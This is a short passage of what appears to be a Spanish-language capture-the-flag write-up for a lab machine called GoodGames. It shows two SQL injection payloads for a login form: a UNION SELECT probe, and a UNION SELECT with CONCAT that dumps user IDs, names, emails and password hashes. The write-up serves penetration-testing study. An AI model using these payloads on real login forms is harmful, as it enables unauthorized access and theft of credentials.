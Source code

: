 
## 🕵️‍♂️ Probando extracción con UNION

Probamos una consulta `UNION SELECT` básica:

```sql
email=' union select 1,2,3,4-- -&password=gueco
```

Esto nos muestra datos internos.

![Extracción básica de datos con UNION](/assets/images/goodgames/05-union-select-basico.png)

---

## 🧠 Extracción de usuarios con CONCAT

Ahora, usamos `CONCAT` para unir `id`, `name`, `email`, `password` y visualizarlo en la respuesta:

```sql
email=' union select 1,2,3,concat(id, ':', name, ':', email, ':', password) from user-- -&password=password
```

![Extrayendo usuarios y hashes](/assets/images/goodgames/06-union-concat-users.png)

---